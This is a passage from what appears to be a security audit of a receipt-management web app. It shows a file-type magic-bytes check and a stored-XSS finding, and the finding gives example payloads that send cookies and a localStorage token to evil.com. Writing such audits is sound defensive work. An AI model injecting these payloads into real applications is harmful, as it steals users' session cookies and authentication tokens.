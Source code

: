 ```typescript
// Validate file content matches MIME type (magic bytes check)
const buffer = await file.arrayBuffer();
const bytes = new Uint8Array(buffer);
const isPDF = bytes[0] === 0x25 && bytes[1] === 0x50 && bytes[2] === 0x44 && bytes[3] === 0x46; // %PDF
const isJPEG = bytes[0] === 0xFF && bytes[1] === 0xD8 && bytes[2] === 0xFF;
const isPNG = bytes[0] === 0x89 && bytes[1] === 0x50 && bytes[2] === 0x4E && bytes[3] === 0x47;

if (mimeType === 'application/pdf' && !isPDF) {
  return new Response(
    JSON.stringify({ error: 'File content does not match PDF format' }),
    { status: 400, headers: corsHeaders }
  );
}
```

---

### 3. **Form Inputs: XSS Vulnerability in User-Generated Content**

**Affected Components:** Notes, vendor names, addresses, categories
**Severity:** 🔴 HIGH
**Risk:** Stored XSS attacks through user input

**Current State:**
- User input is stored directly to database
- Output is rendered without sanitization in some places
- React's built-in XSS protection helps but not complete

**Vulnerabilities:**
```typescript
// User inputs malicious script in vendor name
const vendorName = "<img src=x onerror='alert(document.cookie)'>";

// Later rendered in dashboard without sanitization
<div>{receipt.vendor_name}</div> // React escapes this ✅

// But if using dangerouslySetInnerHTML anywhere...
<div dangerouslySetInnerHTML={{ __html: receipt.notes }} /> // XSS! 🚨
```

**Attack Scenarios:**
```javascript
// Scenario 1: XSS in notes field
{
  "notes": "<script>fetch('https://evil.com?cookie='+document.cookie)</script>"
}

// Scenario 2: XSS in vendor address
{
  "vendor_address": "<img src=x onerror=\"fetch('https://evil.com/steal?data='+localStorage.getItem('token'))\">"
}

// Scenario 3: SVG-based XSS
{
  "vendor_name": "<svg/onload=alert(1)>"
}
```
